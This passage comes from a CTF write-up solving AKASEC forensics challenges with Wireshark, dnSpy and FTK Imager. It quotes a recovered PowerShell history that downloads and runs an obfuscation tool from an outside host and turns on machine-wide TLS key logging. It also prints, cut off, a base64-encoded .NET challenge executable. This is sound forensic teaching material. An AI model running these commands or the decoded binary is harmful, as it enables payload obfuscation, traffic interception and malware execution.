			1,
			2,
			3,
			4,
			5,
			6,
			7]
iv = bytes(iv)

# for i in glob.glob("saveme-chall/*.jpg"):
for i in glob.glob("saveme-chall/*.png"):
	f = open(i, "rb").read()
	cipher = DES3.new(key, DES3.MODE_CBC, iv)
	out = open("out/"+i.split("/")[-1], "wb")
	out.write(cipher.decrypt(f))
```

Open the images (144).png and got the flag

<figure><figcaption></figcaption></figure>

Flag: AKASEC{F\_MiCRoSft\_777}

## Sharing is Not Caring (257 pts)

### Description

My friends and I use the same computer on campus and have a shared folder to exchange files. After submitting the flag for the challenge, it was leaked, and someone obtained it without my knowledge. I'm unsure how they got it.

Author : **d33znu75**

### Solution

Given file ad1 and pcap. Open the pcap file using wireshark. There are several http traffic and there is suspicious URL which is freerambooster.000webhostapp.com.

<figure><figcaption></figcaption></figure>

Access the URL and click download button

<figure><figcaption></figcaption></figure>

Open FREE\_RAM.exe using dnSpy or ILSpy.

<figure><figcaption></figcaption></figure>

Looks like the executable run several powershell command, lets take a look on powershell history. Open ad01 file using ftk imager then go to .

```
C:\users\yuno miles\AppData\Roaming\Microsoft\windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

```
Install-Module ps2exe
$directoryPath = "C:\Users\Public\Document\Internet Explorer\SIGNUP\"
$sslKeyLogFile = Join-Path $directoryPath "sslkey.log"
[System.Environment]::SetEnvironmentVariable('SSLKEYLOGFILE', $sslKeyLogFile, 'Machine')
if (-not (Test-Path $sslKeyLogFile)) {`
    New-Item -Path $sslKeyLogFile -ItemType File`
}
[System.Environment]::SetEnvironmentVariable('SSLKEYLOGFILE', '', 'Machine')
cd ../..
ls
cd '.\Users\yuno miles\'
cd .\Desktop\
cd .\Invoke-Stealth-main\
.\Invoke-Stealth.ps1
powershell iwr -useb https://darkbyte.net/invoke-stealth.php -outfile Invoke-Stealth.ps1
.\Invoke-Stealth.ps1
Invoke-Stealth
.\Invoke-Stealth
Set-ExecutionPolicy RemoteSigned
.\Invoke-Stealth
.\Invoke-Stealth ..\free_raw.ps1 Chameleon
.\Invoke-Stealth ..\free_raw.ps1 -technique Chameleon
.\Invoke-Stealth ..\free_raw.ps1 -technique all
.\Invoke-Stealth ..\free_raw.ps1 -technique PyFuscation
.\Invoke-Stealth -help
.\Invoke-Stealth ..\free_raw.ps1 -technique ReverseB64
[System.Environment]::SetEnvironmentVariable('SSLKEYLOGFILE', '', 'Machine')
```

So there is sslkey.log stored at SIGNUP directory, it will be very useful because it will let us decrypt the SSL traffic. There is no sslkey.log in SIGNUP directory but there is sslkey.log in SIGNUP\ink directory.

<figure><figcaption></figcaption></figure>

Load the sslkey.log file by clicking preferences > Protocols > TLS > (Pre)-Master-Secret log filename. After that look at HTTP2 traffic and there will be request to URL that contains flag.

<figure><figcaption></figcaption></figure>

Flag: AKASEC{B4s1c\_M4lw4r3\_4nd\_PC4P\_4n4lys1s}

## Snooz (436 pts)

### Description

don't wake me up, I want a snooze u will find everything on my laptop!!

<https://we.tl/t-66EoXGwbVQ>

Author: **samaqlo**

### Solution

Given memory dump and pcap file. Open pcap file using wireshark. There are several HTTP traffic and there is suspicious HTTP request which is /download.dat.

<figure><figcaption></figcaption></figure>

Decode the string and write to file.

```python
import base64

a = "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